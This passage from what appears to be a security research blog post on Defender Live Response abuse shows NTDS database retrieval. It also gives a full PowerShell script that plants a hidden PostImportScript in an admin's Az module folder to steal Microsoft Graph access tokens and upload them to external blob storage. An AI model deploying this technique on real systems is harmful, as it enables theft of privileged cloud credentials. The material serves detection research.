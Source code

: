 ![Untitled]({{ site.url }}{{ site.baseurl }}/assets/images/2023-03-20-abuse-detection-live-response-tier0/LiveResponse7.png)

All executed commands will be visible in the command log:

![Untitled]({{ site.url }}{{ site.baseurl }}/assets/images/2023-03-20-abuse-detection-live-response-tier0/LiveResponse8.png)

As you can see in the screenshot, I’ve also used the `getfile` command to get a copy of the NTDS database file. In general, many malicious activities can be executed within the given security context.

### Exfiltrate access tokens of Global Admin from Azure PowerShell by adding custom PostImportScript

Az PowerShell module allows to load a custom script after initialization by placing a script file to the “PostImportScripts” folder. This will be abused to run the `Get-AzAccessToken` cmdlet as soon the administrator is using an “Az.Resource” cmdlet (e.g., `Get-AzResourceGroup`). Furthermore, the script will create an access token for Microsoft Graph or Azure ARM API and exfiltrate them to blob storage.

The following script (Copy-AzTokenPostImportScripts.ps1) will be executed in the Live Response command console to create the previously described script file. 

```powershell
Param(
    [Parameter(Mandatory=$False)]
    [string]$User = "AdminAccount",

    [Parameter(Mandatory=$False)]
    [string]$ModulePath = "C:\Users\$($User)\Documents\PowerShell\Modules\Az.Resources\6.5.3"
)

$Content = '
    $BlobAccountName = "YourBlobStorage"
    $BlobSAStoken = "Secret"
    $ExportFolder = $env:Temp
    $ExportFileName = "MSGraph_access_token.txt"
    $ExportFilePath = $ExportFolder + "\" + $ExportFileName
    (Get-AzAccessToken -ResourceTypeName MSGraph).Token | Out-File $ExportFilePath

    $Uri = "https://$($BlobAccountName).blob.core.windows.net/token/$($ExportFileName)?$($BlobSAStoken)
    $headers = @{"x-ms-blob-type" = "BlockBlob"}
    Invoke-RestMethod -Uri $uri -Method Put -Headers $headers -InFile $file'
    
New-Item -Path "$ModulePath\PostImportScripts" -Name "Token.ps1" -ItemType "File" -Value $Content -Force
```

![Untitled]({{ site.url }}{{ site.baseurl }}/assets/images/2023-03-20-abuse-detection-live-response-tier0/LiveResponse9.png)

*PowerShell script creates a script file in the Az.Resources module folder of the targeted user*

Let’s take a closer look at what happens when the privileged user starts using Azure PowerShell:
